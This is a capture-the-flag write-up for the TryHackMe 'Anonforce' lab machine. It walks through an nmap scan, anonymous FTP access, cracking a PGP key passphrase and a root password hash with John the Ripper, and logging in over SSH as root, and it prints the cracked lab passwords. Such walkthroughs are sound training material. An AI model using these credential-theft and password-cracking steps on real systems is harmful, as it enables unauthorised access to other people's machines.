 ```yaml
---
title: TryHackMe - Anonforce
author: Bonface
date: 2021-12-21 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, web, privesc, bruteforce, hydra, suid, john, crack, gobuster]
---
```

# Anonforce  

boot2root machine for FIT and bsides guatemala CTF  

# Tasks  
Read user.txt and root.txt  

# nmap
## ip = 10.10.59.93  

```sh
nmap -sV -sC -v 10.10.59.93 | tee nmap.txt
```

```sh
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 bin
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 boot
| drwxr-xr-x 17 0 0
3700 Feb 08 07:18 dev
| drwxr-xr-x 85 0 0
4096 Aug 13 2019 etc
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 home
| lrwxrwxrwx 1 0 0
33 Aug 11 2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx 1 0 0
33 Aug 11 2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x 19 0 0
4096 Aug 11 2019 lib
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 lib64
| drwx------ 2 0 0
16384 Aug 11 2019 lost+found
| drwxr-xr-x 4 0 0
4096 Aug 11 2019 media
| drwxr-xr-x 2 0 0
4096 Feb 26 2019 mnt
| drwxrwxrwx 2 1000 1000
4096 Aug 11 2019 notread [NSE: writeable]
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 opt
| dr-xr-xr-x 94 0 0
0 Feb 08 07:18 proc
| drwx------ 3 0 0
4096 Aug 11 2019 root
| drwxr-xr-x 18 0 0
540 Feb 08 07:18 run
| drwxr-xr-x 2 0 0
12288 Aug 11 2019 sbin
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 srv
| dr-xr-xr-x 13 0 0
0 Feb 08 07:18 sys
| drwxrwxrwt 9 0 0
4096 Feb 08 07:18 tmp [NSE: writeable]
| drwxr-xr-x 10 0 0
4096 Aug 11 2019 usr
| drwxr-xr-x 11 0 0
4096 Aug 11 2019 var
| lrwxrwxrwx 1 0 0
30 Aug 11 2019 vmlinuz -> boot/vmlinuz-4.4.0-157-generic
|_lrwxrwxrwx 1 0 0
30 Aug 11 2019 vmlinuz.old -> boot/vmlinuz-4.4.0-142-generic
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.8.172.59
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
1/9| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
| 256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_ 256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
Two ports are open  
- 21 = ftp  
- 22 = ssh  

ftp seems to lack log in credentials so will start with that one.  

# ftp_21
```sh
ftp anonymous@10.10.59.93
```

Used default credentials `anonymous:anonymous`
![[Pasted image 20241023205906.png]]
Enumerating i got the user flag .

![[Pasted image 20241023205925.png]]

# Privilege Escalation

![[Pasted image 20241023210111.png]]

- We can not view or write any thing on the root directory
- But there is a fishy directory with unique permissions.

```sh
cd notread
mget *
```
![[Pasted image 20241023210255.png]]
- one file is an image while the other has some guddies :)
![[Pasted image 20241023210402.png]]

Now we have 
- open port 22 = ssh
- id_rsa key

Lacking a valid user name .
run search_sploit to see if the ssh has an exploit
![[Pasted image 20241023210818.png]]

- Downloaded the exploit but was unable to use it.
- Did some research.

We got two files from ftp :
- backup.pgp  
- private.asc  

We have an encrypted `backup.pgp` file, and very likely a private key file that we can use to decrypt it.  
First, what we need to do is import the private key into our keyring (key management database) of the PGP application.  

```sh
gpg --import private.asc
```
![[Pasted image 20241023211242.png]]

We need to crack the passphrase in order to import it into the key ring.  
We can use `John the Ripper` password-cracking tool for this.  

```sh
 gpg2john private.asc > privatehash.txt
```

Now we can run john to crack the hash using the famous `rockyou.txt` dictionary.  

```sh
 john privatehash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![[Pasted image 20241023211321.png]]

Now that we have the passphrase for the private key, we can import it into the keyring and decrypt the backup.pgp file.  

passphrase = `xbox360`

## Commands 
```sh
gpg --import private.asc

gpg --decrypt backup.pgp
```
![[Pasted image 20241023211403.png]]
We will get a backup of the passwd file, that includes the password hash of root and melodias users.  
![[Pasted image 20241023211412.png]]

Now we crack the passwd file using john.
![[Pasted image 20241023211507.png]]
![[Pasted image 20241023211532.png]]

## Details  
  
- username = root  
- password = hikari  

```sh
 ssh root@10.10.59.93
 ```  
![[Pasted image 20241023211544.png]]
